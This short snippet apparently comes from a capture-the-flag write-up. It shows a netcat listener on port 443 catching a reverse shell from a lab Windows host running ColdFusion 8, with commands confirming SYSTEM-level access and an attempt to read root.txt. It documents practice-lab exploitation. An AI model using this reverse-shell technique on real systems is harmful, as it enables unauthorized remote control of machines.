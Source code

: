 ````
# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49267
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8>whoami & hostname
whoami & hostname
nt authority\system
arctic

C:\Users\Administrator\Desktop>type root.txt

````




